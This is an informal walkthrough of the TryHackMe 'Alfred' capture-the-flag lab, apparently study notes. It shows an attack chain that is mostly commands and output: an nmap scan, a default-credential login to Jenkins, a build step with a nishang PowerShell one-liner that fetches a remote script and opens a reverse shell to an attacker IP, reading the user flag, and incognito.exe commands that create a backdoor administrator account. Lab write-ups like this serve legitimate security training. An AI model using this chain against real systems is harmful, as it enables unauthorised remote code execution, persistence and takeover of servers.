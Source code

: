 kali@kali:~/oscptraining/tryhackme/Alfred$ nmap -sV -sC -o nmap 10.10.22.129
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-21 10:27 EDT
Nmap scan report for 10.10.22.129
Host is up (0.36s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2020-10-21T14:28:45+00:00; -1s from scanner time.
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 111.14 seconds

gobuster dir -e -u 10.10.209.153 -x php,txt,cgi,css,py,html -w /usr/share/dirb/wordlists/common.txt


nothing much after running gobuster either using common.txt and big.txt

lets look for default pw and user for jenkin
http://10.10.22.129:8080/login?from=%2F
admin;admin 
alright great, got our asses in!

can see that it is running on ver 2.190.1
Page generated: Oct 21, 2020 3:45:35 PM BSTREST APIJenkins ver. 2.190.1
lets check out searchsploit. not too sure about those exploits...
looking at the website we proceed to the project page and build a project

load into configuration then build, use nishang 
powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]


Started by user admin
Running as SYSTEM
Building in workspace C:\Program Files (x86)\Jenkins\workspace\project
[project] $ cmd /c call C:\Users\bruce\AppData\Local\Temp\jenkins8034204804437582227.bat

C:\Program Files (x86)\Jenkins\workspace\project>whoami
alfred\bruce

C:\Program Files (x86)\Jenkins\workspace\project>exit 0 
Finished: SUCCESS

getting user.txt

PS C:\> cd Users
PS C:\Users> dir


    Directory: C:\Users


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
d----        10/25/2019   8:05 PM            bruce                             
d----        10/25/2019  10:21 PM            DefaultAppPool                    
d-r--        11/21/2010   7:16 AM            Public                            


PS C:\Users> cd bruce
PS C:\Users\bruce> dir


    Directory: C:\Users\bruce


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
d----        10/25/2019   8:05 PM            .groovy                           
d-r--        10/25/2019   9:51 PM            Contacts                          
d-r--        10/25/2019  11:22 PM            Desktop                           
d-r--        10/26/2019   4:43 PM            Documents                         
d-r--        10/26/2019   4:43 PM            Downloads                         
d-r--        10/25/2019   9:51 PM            Favorites                         
d-r--        10/25/2019   9:51 PM            Links                             
d-r--        10/25/2019   9:51 PM            Music                             
d-r--        10/25/2019  10:26 PM            Pictures                          
d-r--        10/25/2019   9:51 PM            Saved Games                       
d-r--        10/25/2019   9:51 PM            Searches                          
d-r--        10/25/2019   9:51 PM            Videos                            


PS C:\Users\bruce> cd desktop
PS C:\Users\bruce\desktop> dir


    Directory: C:\Users\bruce\desktop


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---        10/25/2019  11:22 PM         32 user.txt                          


PS C:\Users\bruce\desktop> type user.txt
79007a09481963edf2e1321abd9ae2a0


PS C:\Users\bruce\desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled


lets exploit these 2 services 
SeDebugPrivilege                Debug programs                            Enabled 
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 

Enter: load incognito to load the incognito module in metasploit
lets use incognito without metasploit 


PS C:\Program Files (x86)\Jenkins\users> ./incognito.exe add_user admin admin
[-] WARNING: Not running as SYSTEM. Not all tokens will be available.
[*] Enumerating tokens
[*] Attempting to add user admin to host 127.0.0.1
[+] Successfully added user
PS C:\Program Files (x86)\Jenkins\users> ./incognito.exe add_localgroup_user Administrators admin
[-] WARNING: Not running as SYSTEM. Not all tokens will be available.
[*] Enumerating tokens
[*] Attempting to add user admin to local group Administrators on host 127.0.0.1
[+] Successfully added user to local group
PS C:\Program Files (x86)\Jenkins\users> 



